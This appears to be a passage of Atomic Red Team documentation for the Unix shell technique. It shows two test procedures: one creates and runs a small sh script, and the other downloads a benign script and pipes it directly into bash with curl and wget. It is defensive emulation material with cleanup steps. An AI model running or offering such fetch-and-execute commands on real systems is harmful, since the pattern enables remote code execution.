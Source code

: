 Creates and executes a simple sh script.

**Supported Platforms:** Linux, macOS

**auto_generated_guid:** 7e7ac3ed-f795-4fa5-b711-09d6fbe9b873

#### Inputs:

| Name        | Description | Type | Default Value |
| ----------- | ----------- | ---- | ------------- |
| script_path | Script path | path | /tmp/art.sh   |

#### Attack Commands: Run with `sh`!

```sh
sh -c "echo 'echo Hello from the Atomic Red Team' > #{script_path}"
sh -c "echo 'ping -c 4 8.8.8.8' >> #{script_path}"
chmod +x #{script_path}
sh #{script_path}
```

#### Cleanup Commands:

```sh
rm #{script_path}
```

<br/>
<br/>

## Atomic Test #2 - Command-Line Interface

Using Curl to download and pipe a payload to Bash. NOTE: Curl-ing to Bash is generally a bad idea if you don't control the server.

Upon successful execution, sh will download via curl and wget the specified payload (echo-art-fish.sh) and set a marker file in `/tmp/art-fish.txt`.

**Supported Platforms:** Linux, macOS

**auto_generated_guid:** d0c88567-803d-4dca-99b4-7ce65e7b257c

#### Attack Commands: Run with `sh`!

```sh
curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.004/src/echo-art-fish.sh | bash
wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.004/src/echo-art-fish.sh | bash
```

#### Cleanup Commands:

```sh
rm /tmp/art-fish.txt
```

<br/>
<br/>
